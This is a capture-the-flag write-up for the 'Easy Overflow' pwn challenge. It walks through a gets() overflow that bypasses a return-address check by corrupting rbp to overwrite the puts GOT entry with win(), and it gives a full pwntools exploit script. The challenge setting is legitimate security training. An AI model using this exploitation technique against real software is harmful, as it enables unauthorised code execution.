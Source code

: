 # Easy Overflow

## Challenge

Author: Bob123

I did a check on my return address. Now you shouldn't be able to control my RIP.

nc fun.chall.seetf.sg 50003

[easy_overflow](easy_overflow)

## Solution

The binary has ``partial RELRO`` only.

```
[*] '/root/workspace/seetf/easy_overflow/easy_overflow'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

The ``vuln`` function suffers from a buffer overflow due to a call to ``gets``.
Unfortunately the program then checks to ensure the return address hasn't been tampered with.

```
00401186  e8e5feffff         call    gets
0040118b  488d45e0           lea     rax, [rbp-0x20 {var_28}]
0040118f  4883c028           add     rax {__return_addr}, 0x28
00401193  488b00             mov     rax, qword [rax {__return_addr}]
00401196  488d152f000000     lea     rdx, [rel main]
0040119d  4883c246           add     rdx, 0x46
004011a1  4839d0             cmp     rax, rdx
004011a4  750e               jne     0x4011b4
```

This allows us to solely tamper with the ``rbp``, luckily for us, this is enough as further down, the binary executes the following code with the tampered ``rbp``

```
0040121e  488b154b2e0000     mov     rdx, qword [rel stdin]
00401225  488d45e0           lea     rax, [rbp-0x20 {var_28}]
00401229  be08000000         mov     esi, 0x8
0040122e  4889c7             mov     rdi, rax {var_28}
00401231  e82afeffff         call    fgets
```

So we'll redirect ``rbp`` to point to 0x20 bytes ahead of the global offset entry table for ``puts``, this will allow us to overwrite the populated address

```python3
pad = cyclic(32)
chain = p64(e.got['puts']+0x20) 
chain += p64(e.sym['main']+0x46)

p.recvuntil(b'I will let you  overflow me.')
p.sendline(pad+chain)
```

We'll then write the address of the ``win()`` function to the global offset table for ``put``, resulting in the binary calling win() here instead of puts()

```
00401236  488d45e0           lea     rax, [rbp-0x20 {var_28}]
0040123a  4889c7             mov     rdi, rax {var_28}
0040123d  e8eefdffff         call    puts
```

```python3

win = p64(e.sym['win'])

p.recvuntil(b'I will give you one more chance.')
p.sendline(win)
```

Putting it together, we have the following solution

```python
from pwn import *


binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
break *0x401231
break *0x40123d
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('fun.chall.seetf.sg',50003)
    else:
        return process(e.path)

p = start()

def pass_check():
   pad = cyclic(32)
   chain = p64(e.got['puts']+0x20) 
   chain += p64(e.sym['main']+0x46)

   p.recvuntil(b'I will let you  overflow me.')
   p.sendline(pad+chain)

def jmp_to_win():
   win = p64(e.sym['win'])

   p.recvuntil(b'I will give you one more chance.')
   p.sendline(win)

pass_check()
jmp_to_win()
p.interactive()

```
